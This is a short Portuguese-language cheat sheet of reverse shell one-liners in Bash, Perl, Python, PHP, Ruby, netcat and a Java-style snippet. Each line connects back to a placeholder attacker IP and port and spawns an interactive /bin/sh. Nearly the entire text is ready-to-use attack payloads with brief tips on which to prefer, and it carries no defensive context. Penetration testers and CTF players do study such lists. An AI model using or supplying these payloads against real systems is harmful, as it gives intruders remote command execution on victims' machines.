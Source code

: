 # Reverse shell em varias linguagens

### Bash
interpretador de comandos simples
```
bash -i >& /dev/tcp/[IP]/[Porta] 0>&1
```

### PERL
```
perl -e 'use Socket;$i="[IP]";$p=[Porta];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
Para servidores linux no geral
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[Porta]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
Para conexões TCP, se não funcionar teste 4, 5, 6...
```
php -r '$sock=fsockopen("[IP]",[Porta]);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("[IP]",[Porta]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcar
Mais simples, foi criado para isso e também é o mais recomendado.
```
nc -e /bin/sh [IP] [Porta]
```

### Jave
Conexões TCP
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[Porta];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
